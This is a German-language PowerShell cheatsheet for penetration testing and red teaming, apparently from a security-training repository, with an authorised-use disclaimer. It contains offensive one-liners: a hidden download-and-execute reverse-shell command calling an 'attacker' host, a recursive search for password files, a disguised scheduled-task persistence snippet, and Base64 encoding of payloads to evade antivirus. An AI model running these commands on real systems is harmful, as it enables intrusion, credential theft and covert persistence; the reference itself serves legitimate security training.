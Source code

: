 # ⚡ PowerShell Cheatsheet for Cybersecurity & Offensive Ops

## Ziel dieser Datei

Dieses Cheatsheet bietet eine schnelle Referenz für den **Einsatz von PowerShell** in Penetration Tests, Incident Response, Red Teaming und OSINT. Es enthält **sicherheitsrelevante, administrative und offensive Befehle**, gegliedert nach Szenarien.

> Hinweis: PowerShell ist ein äußerst mächtiges Werkzeug – bitte **nur in autorisierten Umgebungen** einsetzen!

---

## Inhaltsverzeichnis

- [Systeminformationen](#systeminformationen)
- [Benutzer & Gruppen](#benutzer--gruppen)
- [Netzwerk- & Firewallinfos](#netzwerk---firewallinfos)
- [Dateisystem und Suche](#dateisystem-und-suche)
- [Prozesse & Dienste](#prozesse--dienste)
- [PowerShell Execution Policies](#execution-policies--umgehung)
- [Datei-Download & Remote Access](#download--remote-access)
- [PowerShell Recon & Enumeration](#powershell-recon--enum)
- [PowerShell als Angriffsplattform](#powershell-für-angreifer)
- [Persistenz via PowerShell](#persistenz-via-powershell)
- [Antivirus Evasion](#av-evasion-basics)
- [Nützliche Tools](#nützliche-module--projekte)
- [Verknüpfte Dateien im Repository](#verknüpfte-dateien-im-repository)
- [Haftungsausschluss](#haftungsausschluss)

---

## Systeminformationen

```powershell
Get-ComputerInfo
systeminfo
hostname
Get-WmiObject -Class Win32_OperatingSystem
```

---

## Benutzer & Gruppen
```powershell
whoami /all
Get-LocalUser
net user
net localgroup administrators
Get-LocalGroupMember -Group "Administrators"
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Netzwerk- & Firewallinfos

```powershell
ipconfig /all
Get-NetIPConfiguration
Get-NetTCPConnection | Where-Object { $_.State -eq "Listen" }
Get-NetFirewallProfile
Get-NetFirewallRule
Test-NetConnection -ComputerName <IP> -Port <Port>
```

---

## Dateisystem und Suche

```powershell
Get-ChildItem -Recurse -Filter *.ps1
dir -Recurse -Filter *password*
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

---

## Prozesse & Dienste

```powershell
Get-Process
tasklist
Get-Service
Get-WmiObject win32_service | Where { $_.State -eq "Running" }
```

---

## Execution Policies & Umgehung

```powershell
Get-ExecutionPolicy
Set-ExecutionPolicy Bypass -Scope Process
powershell.exe -ExecutionPolicy Bypass -File script.ps1
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Download & Remote Access
### Datei herunterladen

```powershell
Invoke-WebRequest "http://ip/script.ps1" -OutFile "script.ps1"
```

### Remote Shell (reverse)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/nc.ps1')
```

---

## PowerShell Recon & Enum

### Passwort-Reste / Credentials

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include *pass*,*cred*,*vnc* | Select-String -Pattern "password"
```

### Benutzerkontext

```powershell
Get-CimInstance Win32_LoggedOnUser
```

### Scheduled Tasks

```powershell
Get-ScheduledTask | Where-Object {$_.TaskPath -like "*"}
```

## PowerShell für Angreifer

| Tool                      | Beschreibung                             |
| ------------------------- | ---------------------------------------- |
| `PowerView.ps1`           | AD-Recon, Trust-Mapping                  |
| `PowerUp.ps1`             | Local Privilege Escalation Checks        |
| `Invoke-Mimikatz`         | Credential Dumping (⚠️ AV blockiert oft)  |
| `SharpHound` (BloodHound) | AD Graph-Enum                            |
| `Empire`                  | PowerShell RAT Framework                 |
| `Powersploit`             | Offensive Module-Sammlung                |

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz via PowerShell
```powershell
# Persistenz per Scheduled Task
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -File C:\evil.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Updater" -Action $action -Trigger $trigger
```

--- 

## AV-Evasion Basics (nur zu Lernzwecken!)
```powershell
# Base64-Encoding Payloads
$bytes = [System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object Net.WebClient).DownloadString('http://<ip>/payload.ps1')")
$encoded = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encoded
```

---

## Nützliche Module & Projekte

| Tool / Modul   | Link                                                                                                                                     |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| PowerSploit    | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)                                         |
| Nishang        | [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)                                                         |
| PowerUp        | [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) |
| Empire         | [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)                                                           |
| PowerSharpPack | [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)                                     |

---

## Verknüpfte Dateien im Repository
- [windows_privilege_escalation.md](/04-os-enumeration/windows_privilege_escalation.md)
- [linux_privilege_escalation.md](/04-os-enumeration/linux_privilege_escalation.md)
- [red_team_tools.md](/05-red-teaming/red_team_tools.md)

---

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
